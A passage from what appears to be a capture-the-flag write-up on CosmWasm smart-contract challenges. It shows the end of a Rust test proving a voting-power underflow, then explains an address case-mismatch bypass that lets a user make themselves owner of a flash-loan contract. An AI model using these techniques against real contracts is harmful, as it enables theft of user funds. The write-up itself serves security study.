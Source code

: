 ```rust
            .execute_contract(Addr::unchecked("hacker"), contract_addr.clone(), &msg, &[])
            .unwrap();

        // Check Hacker's info after trying to unstake 1001 tokens with only 1000 staked
        let msg = QueryMsg::GetUser {
            user: "hacker".to_string(),
        };
        let user_info: UserInfo = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &msg)
            .unwrap();
        
        // This is good!
        assert_eq!(user_info.total_tokens, Uint128::from(1000u128));
        // This is not!
        assert_eq!(user_info.voting_power, 340282366920938463463374607431768211455u128);
    }
```

---

## Challenge 03: *Laevateinn*

### Description

#### Severity: $\textcolor{aqua}{\textsf{Informational}}$

There is an exploitable bug in this contract due to a dependency on a modified `cw-multi-test` library (which is a great reminder to always check dependencies) 

While this PoC is *unlikely* to be viable in a live environment, it does render the contract vulnerable during tests in this sandboxed setting.

Note that this bug **was** exploitable in live environments prior to [CWA-2022-002](https://github.com/CosmWasm/advisories/blob/979c849f8d7d069b18b950054a84dea7c421a493/CWAs/CWA-2022-002.md?plain=1#L28)

The exploit allows a user to bypass the following check within the `request_flash_loan` function in `/proxy/src/contract.rs`, by passing the `flash_loan_addr` converted to upper-case in the `recipient` field:
```rust
    if recipient == config.flash_loan_addr {
        return Err(ContractError::CallToFlashLoan {});
    }
```
While the check above does not return an error (because Rust recognizes that `"CONTRACT" != "contract"`), in both this sandboxed environment and prior to CWA-2022-002, the cosmwasm-vm *did* recognize "CONTRACT" as being equivalent to "contract"

So that means that this check can be bypassed and a message can be sent to the `flash_loan` contract, which is the core of this PoC 

An example of the exploit process:
- The `flash_loan` contract is instantiated with an example address of `contract0`, and the `proxy` contract is instantiated with an example address of `contract1`
- **Note** that the `proxy` contract has elevated permissions on the `flash_loan` contract. Among other things, `proxy` is able to set a new `OWNER` on `flash_loan`, and `OWNER` is able to withdraw all funds from `flash_loan` 
- `USER` calls the `ExecuteMsg::RequestFlashLoan` entry point on the `proxy` contract with `recipient: "CONTRACT0"`, and a `msg` that sets themselves as the new `OWNER` of `flash_loan`
```rust
pub enum ExecuteMsg {
    RequestFlashLoan {
        recipient: Addr, 
        msg: Binary 
    },
```